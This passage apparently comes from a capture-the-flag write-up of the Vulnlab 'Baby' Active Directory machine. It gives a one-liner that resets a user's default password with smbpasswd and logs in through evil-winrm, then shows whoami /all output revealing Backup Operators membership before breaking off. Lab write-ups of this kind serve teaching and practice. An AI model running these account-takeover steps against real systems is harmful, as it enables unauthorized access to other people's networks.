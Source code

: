 ![alt text](https://raw.githubusercontent.com/FabV05/files/main/Baby(VL)/Pasted%20image%2020230723214703.png)

After investigating, I discovered that AD has a script that resets everything every x minutes. So, we need to create a script that changes the password constantly. I created the following one-liner based on one from https://secure77.de/. Now, the main problem with this script is that you have to keep changing the new password manually, so I recommend changing just one letter to a special character.

```bash
`export current_password='BabyStart123!'; export new_password='Start124!'; (echo "$current_password"; echo "$new_password"; echo "$new_password") | smbpasswd -s -U caroline.robinson -r 10.10.64.243 && evil-winrm -i 10.10.64.243 -u caroline.robinson -p "$new_password"`
```
By using this, we can log into the machine, and we found the first flag VL{b2c61************}.

## Privilage Escalation

Now that we are a user, we need to find a way to become a privileged user. To do this, we need to follow these steps:

```bash
whoami /all 

USER INFORMATION
----------------

User Name              SID
====================== ==============================================
baby\caroline.robinson S-1-5-21-1407081343-4001094062-1444647654-1111


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
BABY\it                                    Group            S-1-5-21-1407081343-4001094062-1444647654-1109 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
```